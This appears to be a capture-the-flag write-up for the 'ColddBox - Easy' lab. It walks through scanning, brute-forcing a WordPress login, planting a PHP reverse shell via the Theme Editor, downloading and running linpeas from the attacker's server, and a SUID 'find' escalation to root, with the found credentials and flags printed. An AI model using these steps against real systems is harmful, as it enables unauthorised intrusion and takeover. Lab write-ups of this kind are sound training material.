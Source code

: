 # ColddBox - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.96.244

feroxbuster -u http://10.10.96.244-w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

cmseek

wpscan --url http://10.10.96.244/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames C0ldd
#brute-force login for C0ldd user

vim reverse-shell.php

#setup listener for reverse-shell
nc -nvlp 4444
#we get reverse shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

cd /tmp

#in attacker machine
python3 -m http.server

#in reverse-shell
wget http://10.10.96.244:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#SUID exploit for find from GTFObins
/usr/bin/find . -exec /bin/sh -p \; -quit

#we have root shell now
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.18 (Ubuntu)
  * 4512 - ssh - OpenSSH 7.2p2

* The webpage on port 80 leads us to a blog titled 'ColddBox'; we can start enumerating the web directories simultaneously.

* Using ```cmseek```, we can confirm that the webpage is using WordPress version 4.1.31

* Out of all the directories enumerated, a few pages of interest are /hidden and /wp-login.php

* In /hidden, we get the following message:

```markdown
U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

* From this, we get three possible usernames - C0ldd, Hugo and Philip.

* We can use ```wpscan``` tool and attempt to brute-force login.

* Using brute-force, we get the creds C0ldd:9876543210

* Now, as we have access to the Wordpress dashboard, we can get reverse shell using the Theme Editor.

* Navigating to the Theme Editor, we can edit the 404 page for 'twentyfifteen' theme, and add our PHP reverse-shell code; save the file after editing.

* Setup listener and navigate to <http://10.10.96.244/wp-content/themes/twentyfifteen/404.php> to activate the reverse shell.

* We get shell as 'www-data'; we can now enumerate using 'linpeas'.

* Now, while analyzing Wordpress files in ```/var/www/html/wp-config.php```, linpeas shows the creds c0ldd:cybersecurity

* Also, linpeas shows that the 'find' binary has SUID bit set.

* From GTFObins, we can get the SUID exploit for find - executing it gives us root - now we can get both flags.

```markdown
1. user.txt - RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

2. root.txt - wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```
